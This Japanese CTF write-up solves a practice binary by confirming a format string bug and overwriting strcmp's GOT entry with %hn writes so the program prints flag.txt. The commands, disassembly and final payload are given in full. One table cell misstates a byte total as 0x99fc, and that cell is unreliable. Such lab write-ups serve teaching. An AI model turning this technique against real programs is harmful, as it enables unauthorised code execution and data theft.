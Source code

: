 # Villager A
1. check security 機構.
* 以下リポジトリにある shell を実行して、予めどの security 機構がかかっているか確認する。
  * checksec.sh: https://github.com/slimm609/checksec.sh
```
ssh q4@ctfq.u1tramarine.blue -p 10004 'bash -s ' < ~/ctf_tools/checksec.sh -- --file q4
  RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
  No RELRO        No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   q4
```

2. 用いられている lib func の確認.
```
ssh q4@ctfq.u1tramarine.blue -p 10004 'objdump -M intel -d q4 -j .plt' | less
```
* fgets, printf がある。また、1. の結果から、stackoverflow, format string attack あたりが狙えそう。
* assembly を見ると、fgets の入力が、printf に流れている。

3. format string attack が可能か確認する。
```
[q4@eceec62b961b ~]$ ./q4
What's your name?
AAAABBBB%p,%p,%p,%p,%p,%p,%p
Hi, AAAABBBB0x400,0xf7ca6580,0xff9acf18,0x6,(nil),0x41414141,0x42424242
```
* stack の中身にアクセス可能であることがわかる。
  * position 6, 7 が 入力"AAAABBBB" に対応。
* eip の移し先を考える。
  * assembly の後半で、fopen を呼んで中身を出力する処理がある。
  * 同 directory に、"flag.txt" があるので、おそらくこれを読みだせばよさそう。
* fopen の読みだしファイル名の確認.
  * objdump(disassembly) の結果より、引数に渡す文字列は"0x80487e8"にある。
```
[q4@eceec62b961b ~]$ gdb -q q4
(gdb) start
(gdb) x/1s 0x80487e8
0x80487e8:      "flag.txt"
```
* fopen の呼び出しに処理を移すことを考える。(通常、無限にループにかかって実行されない箇所にある。)
  * fsa(format string attack) が可能なので、lib func の got/plt を書き換えることでいけそう。

4. fsa で GOT overwrite する。
* target をstrcmp とする。
```
% ssh q4@ctfq.u1tramarine.blue -p 10004 'objdump -M intel -d q4 -j.plt' | grep -A 5 "strcmp"
q4@ctfq.u1tramarine.blue's password:
080484e4 <strcmp@plt>:
80484e4:       ff 25 fc 99 04 08       jmp    DWORD PTR ds:0x80499fc
80484ea:       68 40 00 00 00          push   0x40
80484ef:       e9 60 ff ff ff          jmp    8048454 <.plt>
```
* plt 参照時の adrs "0x80499fc" を書き換える。
  * jump 先を、fopen 前 "0x8048691" にする。
* position 6,7 の変数に、target adrs を入れ、'%hn' で2byteずつ書き込みを行う。
  * 以下のテーブルになるように入力を与える。
|      |  出力 byte  | total byte  |
| ---- | ---- | ---- |
|  target adrs 1  |  4  |  4  |
|  target adrs 2  |  4  |  8  |
|  %2044x  |  2044  |  2052 (0x0804)  |
|  %6$hn  |  0  |  2052 (0x0804)  |
|  %32397x  |  32397  |  3449 (0x99fc)  |
|  %7$hn  |  0  |  3449 (0x99fc)  |

```
[q4@eceec62b961b ~]$ (echo -e '\xfe\x99\x04\x08\xfc\x99\x04\x08%2044x%6$hn%32397x%7$hn\n'; cat) | ./q4
```
* flag が得られる。 done!

